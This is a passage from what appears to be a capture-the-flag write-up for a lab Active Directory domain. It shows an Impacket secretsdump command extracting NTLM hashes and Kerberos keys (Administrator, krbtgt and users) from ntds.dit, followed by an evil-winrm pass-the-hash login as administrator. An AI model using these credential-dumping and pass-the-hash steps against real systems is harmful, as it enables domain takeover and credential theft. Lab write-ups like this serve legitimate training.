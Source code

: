 ```
python3 /opt/impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL 

Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 76cf6bbf02e743fac12666e5a41342a7
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9653b02d945329c7270525c4c2a69c67:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
FUSION-DC$:1000:aad3b435b51404eeaad3b435b51404ee:06dad9b238c644fdc20c7633b82a72c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:feabe44b40ad2341cdef1fd95297ef38:::
fusion.corp\lparker:1103:aad3b435b51404eeaad3b435b51404ee:5a2ed7b4bb2cd206cc884319b97b6ce8:::
fusion.corp\jmurphy:1104:aad3b435b51404eeaad3b435b51404ee:69c62e471cf61441bb80c5af410a17a3:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:4db79e601e451bea7bb01d0a8a1b5d2950992b3d2e3e750ab1f3c93f2110a2e1
Administrator:aes128-cts-hmac-sha1-96:c0006e6cbd625c775cb9971c711d6ea8
Administrator:des-cbc-md5:d64f8c131997a42a
FUSION-DC$:aes256-cts-hmac-sha1-96:3512e0b58927d24c67b6d64f3d1b71e392b7d3465ae8e9a9bc21158e53a75088
FUSION-DC$:aes128-cts-hmac-sha1-96:70a93c812e563eb869ba00bcd892f76a
FUSION-DC$:des-cbc-md5:04b9ef07d9e0a279
krbtgt:aes256-cts-hmac-sha1-96:82e655601984d4d9d3fee50c9809c3a953a584a5949c6e82e5626340df2371ad
krbtgt:aes128-cts-hmac-sha1-96:63bf9a2734e81f83ed6ccb1a8982882c
krbtgt:des-cbc-md5:167a91b383cb104a
fusion.corp\lparker:aes256-cts-hmac-sha1-96:4c3daa8ed0c9f262289be9af7e35aeefe0f1e63458685c0130ef551b9a45e19a
fusion.corp\lparker:aes128-cts-hmac-sha1-96:4e918d7516a7fb9d17824f21a662a9dd
fusion.corp\lparker:des-cbc-md5:7c154cb3bf46d904
fusion.corp\jmurphy:aes256-cts-hmac-sha1-96:7f08daa9702156b2ad2438c272f73457f1dadfcb3837ab6a92d90b409d6f3150
fusion.corp\jmurphy:aes128-cts-hmac-sha1-96:c757288dab94bf7d0d26e88b7a16b3f0
fusion.corp\jmurphy:des-cbc-md5:5e64c22554988937
[*] Cleaning up... 
```

## Root/Admin login

```
evil-winrm -i 10.10.222.16 -u administrator -H 9653b02d945329c7270525c4c2a69c67
```

We can get the last flag now! 



